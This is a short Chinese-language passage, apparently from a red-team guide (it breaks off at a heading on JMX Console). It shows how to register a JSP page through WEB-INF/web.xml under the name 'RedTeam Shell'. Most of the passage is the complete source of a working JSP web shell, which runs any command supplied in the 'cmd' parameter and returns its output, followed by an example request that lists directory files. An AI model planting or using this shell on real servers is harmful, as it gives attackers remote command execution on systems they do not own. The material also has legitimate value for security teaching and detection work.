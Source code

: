 WEB-INF/web.xml文件必须手动创建，它包含有关Web应用程序的信息，例如JSP文件，或者更详细的应用描述信息，如果发生错误，使用什么图标显示或者错误页面的名称等

```
<?xml version="1.0" ?>
<web-app xmlns="http://java.sun.com/xml/ns/j2ee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee
             http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd"
         version="2.4">
    <servlet>
        <servlet-name>RedTeam Shell</servlet-name>
        <jsp-file>/redteam.jsp</jsp-file>
    </servlet>
</web-app>

```

redteam的内容：

```
<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
  String cmd = request.getParameter("cmd");
  Process p = Runtime.getRuntime().exec(cmd);
  OutputStream os = p.getOutputStream();
  InputStream in = p.getInputStream();
  DataInputStream dis = new DataInputStream(in);
  String disr = dis.readLine();
  while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
} }
%>

```

HTTP请求：

```
/redteam.jsp?cmd=ls

```

将会列出当前目录所有文件，命令执行后的结果会通过如下代码返回来：

```
while ( disr != null ) {
  out.println(disr);
  disr = dis.readLine();
}

```

#### JMX Console

